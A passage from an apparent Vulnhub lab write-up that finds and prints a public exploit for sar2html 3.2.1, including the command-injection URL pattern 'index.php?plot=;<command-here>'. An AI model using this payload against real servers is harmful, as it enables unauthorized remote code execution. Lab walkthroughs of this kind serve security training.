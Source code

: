 Next we should check if there are known exploits available for this application.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Sar1]
└─$ searchsploit sar2html        
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
sar2html 3.2.1 - 'plot' Remote Code Execution                                                                                                                                                            | php/webapps/49344.py
Sar2HTML 3.2.1 - Remote Command Execution                                                                                                                                                                | php/webapps/47204.txt
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
It looks like there is a Remote Code Execution possible. Let's copy the exploit to our project directory and inspect the exploit.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Sar1]
└─$ searchsploit -m 47204
  Exploit: Sar2HTML 3.2.1 - Remote Command Execution
      URL: https://www.exploit-db.com/exploits/47204
     Path: /usr/share/exploitdb/exploits/php/webapps/47204.txt
File Type: ASCII text

Copied to: /home/emvee/Documents/Vulnhub/Sar1/47204.txt

┌──(emvee㉿kali)-[~/Documents/Vulnhub/Sar1]
└─$ cat 47204.txt           
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute
the command you entered. After command injection press "select # host" then your command's
output will appear bottom side of the scroll screen.                      
```
